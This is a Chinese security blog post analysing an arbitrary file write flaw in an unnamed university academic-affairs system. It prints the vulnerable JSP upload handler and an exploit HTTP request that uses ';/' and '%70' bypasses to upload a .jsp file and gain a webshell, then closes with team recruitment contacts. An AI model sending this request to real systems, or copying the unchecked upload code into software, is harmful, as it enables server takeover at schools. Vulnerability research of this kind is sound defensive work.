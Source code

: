 #  重生之网安小FW，某教务一体化系统任意文件写入漏洞  
原创 chobits02  C4安全团队   2025-06-12 09:25  
  
## 前言  
  
之前在挖掘某个项目目标漏洞的时候，收集到了下面学校的系统。看系统是教育SRC经常出漏洞的常客，但是网上基本没有公开的漏洞信息，藏得真好啊  
  
系统页面如下，是某智的教务系统  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuarvUU4jweLRPVDpC5cu4cCNS2YU7wXW3AicxKibH0PVibs8nZoPVicLbsQ/640?wx_fmt=png&from=appmsg "")  
  
找了半天，好家伙只能在ddpoc上面找到，用微信注册一个账号，用仅存的20积分换个poc看下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuxqlQQYkxoPJ1DvvZIic62ibaIhdeh5QHicXsfMRlUdZDWhxQzpPVP6ibXw/640?wx_fmt=png&from=appmsg "")  
  
给的poc也不是标准的nuclei格式  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjus9gFs0ffAtA8Cx51Y8GibdnOaZ6DLabJiauVxoZIMZ7EJQzQfrQsUtOA/640?wx_fmt=png&from=appmsg "")  
  
看个大概吧，使用;/绕过特殊处理URL，然后%70应该是请求绕过后缀检测  
  
可惜在系统上面试了试，都是利用不了的，但是手边正好有份源码，我简单分析下jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuhZqH9jGkEMAX7xGicibYAbT6c7WYKAZicNiam7vL8TL3fT5CITwDSpnYxA/640?wx_fmt=png&from=appmsg "")  
  
文件路径就是  
\ROOT\framework\scan\jsp  
  
代码如下  
```
<%@ page contentType="text/html; charset=utf-8" language="java" import="java.sql.*,java.io.*" errorPage="" %>
<%
String savePath=config.getServletContext().getRealPath("/images/");
        File tmp_path=new File(savePath);
        tmp_path.mkdirs();
        System.out.println("照片数据保存路径:"+savePath);
String pic_base_64_data=request.getParameter("picData");
//如果下面的代码输出true则说明需要调整服务器软件工作参数，解决接受post数据的大小限制问题,例如
//tomcat的话需要在server.xml中配置maxPostSize="0"来解除上传数据的大小限制   <Connector port="8080" protocol="HTTP/1.1" 
//               connectionTimeout="20000" 
//               redirectPort="8443" maxPostSize="0"/>
// 
System.out.println(null==pic_base_64_data);
System.out.println("base64 string length:"+pic_base_64_data.length());
String fileFormat=request.getParameter("picExt");
sun.misc.BASE64Decoder decode=new sun.misc.BASE64Decoder();
byte[] datas=decode.decodeBuffer(pic_base_64_data);
String filename=String.valueOf(System.currentTimeMillis())+fileFormat;
File file=new File(savePath+"/"+filename);
System.out.println("file="+file);
OutputStream fos=new FileOutputStream(file);
System.out.println("图片文件名称:"+filename);
fos.write(datas);
fos.close();
out.print("<a href='" + filename + "'>click here</a>");
out.flush();
out.close();
%>
```  
  
jsp文件接收  
Base64编码的图片数据，通过参数  
picData指定base64编码的内容，  
picExt指定文件后缀名  
  
保存的文件路径为  
/images/，如果上传成功，就拿返回数据包里面通过时间戳命名的filename+.jsp后缀来请求，就能getshell了  
  
因此上传文件请求体大致如下  
```
POST /;/framework/scan/jsp/submit.js%70 HTTP/1.1
Host: 

Content-Type: application/x-www-form-urlencoded
picData=base64编码内容&picExt=.jsp
```  
  
师傅们看个乐呵，现在这漏洞都修的差不多了，恰个柠檬  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuGo2icdMpUtKQBf9qlGDia5hwXJWhe9Z3JR7CBibt0ymIYSibNFxzEhhribg/640?wx_fmt=png&from=appmsg "")  
  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，加入团队等都可联系微信：yukikhq，添加即可。**  
  
END  
  
  
  
  
  
  
  
  
  
